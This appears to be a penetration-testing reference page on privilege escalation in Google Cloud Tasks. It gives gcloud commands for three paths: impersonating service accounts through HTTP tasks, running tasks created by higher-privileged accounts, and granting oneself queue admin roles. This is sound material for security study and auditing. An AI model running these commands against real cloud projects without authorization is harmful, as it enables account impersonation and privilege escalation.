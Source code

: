 # GCP - Cloud Tasks Privesc

## Cloud Tasks

### `cloudtasks.tasks.create`, `iam.serviceAccounts.actAs`

An attacker with these permissions can **impersonate other service accounts** by creating tasks that execute with the specified service account's identity. This allows sending **authenticated HTTP requests to IAM-protected Cloud Run or Cloud Functions** services.

```bash
gcloud tasks create-http-task \
  task-$(date '+%Y%m%d%H%M%S') \
  --location us-central1 \
  --queue <queue_name> \
  --url 'https://<service_name>.us-central1.run.app' \
  --method POST \
  --header 'X-Hello: world' \
  --body-content '{"hello":"world"}' \
  --oidc-service-account-email <account>@<project_id>.iam.gserviceaccount.com
```

### `cloudtasks.tasks.run`, `cloudtasks.tasks.list`

An attacker with these permissions can **run existing scheduled tasks** without having permissions on the service account associated with the task. This allows executing tasks that were previously created with higher privileged service accounts.

```bash
gcloud tasks run projects/<project_id>/locations/us-central1/queues/<queue_name>/tasks/<task_id>
```

The principal executing this command **doesn't need `iam.serviceAccounts.actAs` permission** on the task's service account. However, this only allows running existing tasks - it doesn't grant the ability to create or modify tasks.

### `cloudtasks.queues.setIamPolicy`

An attacker with this permission can **grant themselves or other principals Cloud Tasks roles** on specific queues, potentially escalating to `roles/cloudtasks.admin` which includes the ability to create and run tasks.

```bash
gcloud tasks queues add-iam-policy-binding \
  <queue_name> \
  --location us-central1 \
  --member serviceAccount:<account>@<project_id>.iam.gserviceaccount.com \
  --role roles/cloudtasks.admin
```

This allows the attacker to grant full Cloud Tasks admin permissions on the queue to any service account they control.

## References

- [Google Cloud Tasks Documentation](https://cloud.google.com/tasks/docs)

